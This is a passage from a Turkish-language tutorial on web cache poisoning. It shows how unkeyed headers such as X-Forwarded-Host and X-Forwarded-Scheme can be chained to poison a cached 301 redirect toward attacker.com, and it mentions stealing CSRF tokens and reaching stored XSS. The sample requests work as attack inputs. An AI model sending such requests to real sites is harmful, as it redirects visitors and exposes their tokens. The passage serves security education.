 Bu sayede aslında [ghost.org](http://ghost.org) üzerinde bir hesap oluşturup kendi özel alan adımı tanımlayacak olursam, [blog.cloudflare.com](http://blog.cloudflare.com) isteklerini `X-Forwarded-Host` başlığını kullanılarak kendi siteme yönlendirmem mümkün oluyor. Bu isteği önbelleğe kaydedecek olursam, tüm ziyaretçileri benim adresime yönlendirebilirim.

### Anahtarsız Girişlerin Zincirlenmesi

Bazı durumlarda, anahtar olarak kullanılmayan girdiler, uygulama yanıtı üzerinde küçük bir parçada bulunur. 

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /en HTTP/1.1
Host: redacted.net
<span style="color:DodgerBlue">X-Forwarded-Host: xyz</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Set-Cookie: <span class="nv">locale</span><span class="o">=</span>en<span class="p">;</span> <span class="nv">domain</span><span class="o">=</span><span style="color:DodgerBlue">xyz</span>
</code></pre></div></div>

Gördüğünüz gibi `X-Forwarded-Host` başlığı, sunucunun çerezleri (`Set-Cookie`) belirli bir domaine (`xyz`) ayarlamasına neden oluyor. Ancak, yanıt içindeki URL'ler değiştirilmemiş. Tek başına bu bilgi, saldırı yapmak için yeterli değil.
Bu durumdan yararlanmak için diğer anahtar olarak kullanılmayan girişlerle bu anahtarsız girişi birleştirmemiz gerekebilir. 

```bash
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```

```bash
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net/en
```

`X-Forwarded-Scheme: nothttps` başlığı, sunucunun yönlendirme yanıtı sunmasına sebep oluyor ancak hedef domain değişmiyor. Tek başına bu bilgi de saldırı yapmak için yeterli değil.
Ancak ikisini birleştirirsek, sunucu yanıtının `Location` başlığını değiştirebiliriz ve bu, saldırganın kontrol ettiği bir domain'e yönlendirme sağlar.

```bash
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```

```bash
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en 
```

Bu tekniği kullanarak bir POST isteğini yeniden yönlendirerek CSRF tokenlerini düzenlenmiş olan HTTP başlığından çalmak mümkündür.(Tabii CORS müsade ediyorsa.) Ayrıca, daha önce bahsedilen [data.gov](http://data.gov/) üzerindeki zafiyete benzer şekilde, JSON olarak XSS yükü ekleyerek DOM based stored XSS'yi de elde etmek mümkündür.

